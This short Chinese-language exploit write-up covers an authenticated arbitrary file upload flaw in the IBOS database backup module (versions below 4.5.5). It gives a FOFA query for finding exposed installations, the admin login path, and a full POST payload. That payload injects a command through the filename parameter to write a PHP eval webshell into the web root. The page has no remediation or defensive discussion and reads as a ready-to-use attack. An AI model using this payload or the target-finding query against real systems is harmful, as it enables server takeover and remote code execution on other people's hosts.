


# IBOS 数据库模块 后台任意文件上传漏洞

## 漏洞描述

IBOS 后台数据库模块 存在任意文件上传漏洞，攻击者进入后台后可以上传恶意文件控制服务器

## 漏洞影响

```
IBOS < 4.5.5
```

## FOFA

```
body="IBOS" && body="login-panel"
```

## 漏洞复现

登录页面

```plain
http://xxx.xxx.xxx.xxx/?r=dashboard/default/login
```


找到数据库备份模块





提交并抓包





修改filename参数发送包会上传test.php文件到根目录


```plain
backuptype=all&custom_enabled=1&method=shell&sizelimit=2048&extendins=0&sqlcompat=MYSQL41&sqlcharset=utf8&usehex=0&usezip=0&filename=peiqi%26echo "<?php eval($_REQUEST[test]);?>">test%PATHEXT:~0,1%php%26test&dbSubmit=1
```


